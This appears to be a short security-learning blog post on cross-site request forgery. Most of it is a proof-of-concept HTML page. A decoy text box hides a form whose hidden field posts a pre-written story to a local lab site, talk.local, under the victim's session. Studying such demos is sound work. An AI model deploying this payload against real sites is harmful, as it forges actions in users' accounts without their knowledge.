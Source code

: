 ```yaml
---
layout: post
title: Cross-site Request Forgery
subtitle: Week 20
tags: [CSRF, exploit]
---
```


XSS is a popular, and well-known vulnerability. CSRF is less common but just as dangerous, particularly because of the lack of awareness.

{% highlight html linenos %}

<!doctype html>

<head>
    <title>Feels</title>
</head>

<body>
    <h1>How are you?</h1>
    <input type="textarea" />
    <!--
    notice how this text area is not a child of the form below.
    we don't care about the user's input, it is discarded.
    -->
    <form action="http://talk.local/create_story">
        <input type="hidden" name="my_story" value="i+feel+very+small%2C+please+hold+me+close..." />
        <input type="submit" />
    </form>
</body>

{% endhighlight %}
